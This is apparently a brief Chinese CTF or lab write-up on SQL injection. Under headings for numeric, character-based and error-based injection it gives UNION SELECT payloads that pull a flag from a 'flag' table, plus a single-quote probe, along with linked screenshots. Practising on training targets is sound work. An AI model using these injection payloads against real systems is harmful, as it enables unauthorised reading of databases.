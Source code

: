 ![](assets/PixPin_2025-05-23_17-51-25.png)

## 获取数据

```
-1 union select 1,falg from flag
```

![](assets/PixPin_2025-05-23_17-52-37.png)

# 字符注入

## 获取数据

```
-1' union select 1,falg from flag #
```

# 报错注入

```
1'
```

![](assets/PixPin_2025-05-23_18-05-41.png)
